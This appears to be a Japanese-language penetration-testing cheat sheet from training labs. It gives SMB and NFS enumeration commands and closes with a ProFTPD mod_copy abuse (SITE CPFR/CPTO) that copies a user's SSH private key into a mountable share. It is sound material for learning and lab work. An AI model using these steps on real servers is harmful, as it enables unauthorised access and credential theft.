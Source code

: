 ###ファイルの列挙
~~~smbmap -R Replication -H 10.10.10.100~~~

##nmap script
###ファイル共有の一覧を列挙
~~~smb-enum-shares.nse~~~

###リモートの Windows システム上のユーザーを列挙
~~~smb-enum-users.nse~~~

~~~nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.162.244~~~

##smbclient
###サーバー上の SMB/CIFS リソースにアクセスする
~~~smbclient //10.10.162.244/anonymous~~~

##smbget
###SMB 経由でファイルをダウンロード
~~~smbget -R smb://10.10.162.244/anonymous~~~

##ポート111が開いている場合はマウント可能なディレクトリがないか調べることができる
~~~nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.208.182~~~

### mod_copy モジュールは SITE CPFR と SITE CPTO コマンドを実装しており、
### サーバー上のある場所から別の場所にファイルやディレクトリをコピーするために使用できます。認証されていないクライアントは、
### これらのコマンドを利用して、ファイルシステムの任意の部分から選択した宛先にファイルをコピーすることができます。
この仕様を悪用してsshの秘密鍵をマウント可能な領域に移動する。
例:
~~~nc $IP 21~~~

###コピー元のファイルを指定する
~~~SITE CPFR /home/kenobi/.ssh/id_rsa~~~

###コピー先を指定する
~~~SITE CPTO /var/tmp/id_rsa~~~
